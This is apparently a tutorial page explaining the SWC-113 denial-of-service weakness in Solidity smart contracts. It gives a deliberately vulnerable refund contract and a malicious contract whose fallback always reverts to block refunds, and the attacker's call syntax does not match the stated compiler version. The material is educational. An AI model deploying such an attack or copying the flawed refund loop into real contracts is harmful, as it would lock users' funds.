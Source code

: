 DoS Attack Contract
===================

This set of contracts shows how a contract may be susceptible to a denial of service attack by an unexpected revert ([SWC-113](https://swcregistry.io/docs/SWC-113){target=_blank}).

The `VulnerableContract` loops over the subscribers array, making a transfer to each address. This is dangerous because when the `refundFees()` function is called and the `VulnerableContract` attempts to send funds to the `MaliciousContract`, the `MaliciousContract` fallback function is called, which stops execution and reverts. This transaction will never succeed and `refundFees()` will never successfully execute, preventing any subscribers from getting their subscription fee back.

```
pragma solidity 0.8.4;

// Example DenialOfService Attack  
contract VulnerableContract {    
  address owner = msg.sender;    
  address payable[] public subscribers;    
  uint FEE_COST = 1 ether;          
  
  function subscribe() public payable {        
    require(msg.value == FEE_COST, "Insufficient msg.value");        
    subscribers.push(msg.sender);    
  }          
  
  function refundFees() public {        
    require(msg.sender == owner, "msg.sender should be owner");        
    for(uint i = subscribers.length; i > 0; i--) {            
      subscribers[i - 1].transfer(FEE_COST);            
      subscribers.pop();        
    }
  }          
  
  function getBalance() view public returns(uint) {        
    return address(this).balance;    
  }          
  
  // Auxiliar function for demo. It wouldn't be present in a vulnerable contract    
  function removeLastSubscriber() public {        
    subscribers.pop();    
  }
  
}  
  
contract MaliciousContract {    
  VulnerableContract vulnerableContract = VulnerableContract(0x5E72914535f202659083Db3a02C984188Fa26e9f);          
  
  function subscribe() public payable {        
    vulnerableContract.subscribe.value(msg.value)();       
  }          
  
  fallback() external payable {        
    require(false);    
  }
}
```
 
